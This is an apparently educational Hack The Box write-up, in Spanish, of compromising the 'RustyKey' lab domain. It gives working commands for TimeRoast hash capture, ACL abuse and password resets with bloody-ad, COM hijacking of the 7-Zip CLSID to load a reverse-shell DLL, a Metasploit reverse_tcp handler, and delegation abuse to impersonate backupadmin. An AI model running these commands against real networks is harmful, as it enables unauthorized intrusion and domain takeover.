Machine Information

As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: `rr.parker` / `8#t5HE8L!W3A`

---


La máquina **RustyKey** de Hack The Box simula un entorno corporativo realista, en el que el atacante comienza con un acceso inicial proporcionado por el cliente, representado por un par de credenciales válidas. Este escenario reproduce una situación común en pentests internos, donde se parte con acceso limitado a la red o a una cuenta de bajo privilegio.

Esta máquina permite practicar múltiples técnicas comunes en entornos Active Directory con acceso inicial desde un usuario de bajo privilegio. 
A lo largo del compromiso se utilizan:

- **Enumeración interna** con usuario autenticado.
- **TimeRoast**.
- **Abuso de privilegios ACL (`AddSelf`, `ForceChangePassword`,`AddAllowedToAct`)**.
- **COM** (Component Object Model) **hijacking**
- **DCSync**
- **PtH (Pass The Ticket)**

---

# Enumeración inicial

Enumeramos smb mediante nxc. Enumeramos RIDs mediante `--rid-brute` y usamos `-M timeroast` para obtener hashes de múltiples cuentas de ordenador.  





Crackeamos el hash con la version beta de [hashcat](https://hashcat.net/beta/)  y comparamos el hash crackeado con el RID que encontramos en el primer paso, consiguiendo la contraseña de una cuenta de ordenador.



RID = 1125 = IT-COMPUTERS3$ 

Enumeramos mediante bloodhound. 


Vemos que la cuenta de equipo a la que tenemos acceso puede añadirse al grupo `HelpDesk`, y este grupo puede cambiar la contraseña de cuatro usuarios diferentes. También puede añadir/eliminar usuarios de los grupos `IT` y `Support`.
Estos dos grupos están en el grupo `Objetos protegidos`, que a su vez está en el grupo `Usuarios protegidos`.



Enumerando de la forma correcta podemos ver que `BB.MORGAN` es el más indicado.



# Acceso

Metemos equipo `IT-COMPUTER3$` en grupo `HELPDESK`.

```shell
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <passwd> -k add groupMember HELPDESK 'IT-COMPUTER3$'
```

Cambiamos la Contraseña de `BB.MORGAN`

```SHELL
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <PASSWD> -k set password BB.MORGAN 'Test12345'
```

Eliminamos el grupo `IT` de `Protected Objects`

```shell
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <passwd> -k remove groupMember 'Protected Objects' IT
```

Pedimos el ticket del usuario `BB.MORGAN` 

```shell
getTGT.py -dc-ip 10.10.11.75 rustykey.htb/BB.MORGAN:'Test12345'
```



`PtH` Y nos conectamos por `evil-winrm`


USER!!!!


En el PDF encontrado junto a la `user.txt`, dice existir un problema de compresión/descompresión. Si echamos un vistazo a los archivos de programa vemos 7-zip dentro. 
Entonces el siguiente paso es leer que claves hay dentro de `HKEY_CLASSES_ROOT\Folder\ShellEx\ContextMenuHandlers\7-Zip`, que contiene los registros de ese programa:

```powershell
Get-Item -Path “Registry::HKEY_CLASSES_ROOT\Folder\ShellEx\ContextMenuHandlers\7-Zip”
```



Pudiendo movernos lateralmente mediante `COM hijacking`
# Movimiento lateral y Escalada




En la terminal de `EE.REED`

```powershell
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\shellrev.dll" /f
```



`msfconsole -q -x "use multi/handler; set payload windows/x64/shell/reverse_tcp; set lhost 10.10.14.34; set lport 5555; exploit" `




Echamos un vistazo a lo que el usuario puede hacer en bloodhound. Está en el grupo `DelegationManager`, que tiene permisos `AddAllowedToAct` en el controlador de dominio. 



La forma más sencilla de escalar a root es establecer el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` mediante el cmdlet `Set-ADComputer`. 

```
powershell -nop -exec bypass
```

```shell  
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount  
``` 

```  
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount "IT-COMPUTER3$"  
```



Seguimos el último comando sugerido en bloodhound `getST.py` y, a continuación, utilizamos el ticket para escalar a root mediante `smbexec`/`wmiexec`/`secretsdump`.

```  
getST.py 'RUSTYKEY.HTB/IT-COMPUTER3$:<passwd>' -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip [10.10.11.75](https://10.10.11.75 "https://10.10.11.75/")  
``` 

```  
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache  
```

```  
wmiexec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
```








---
## HAPPY HACKING

---

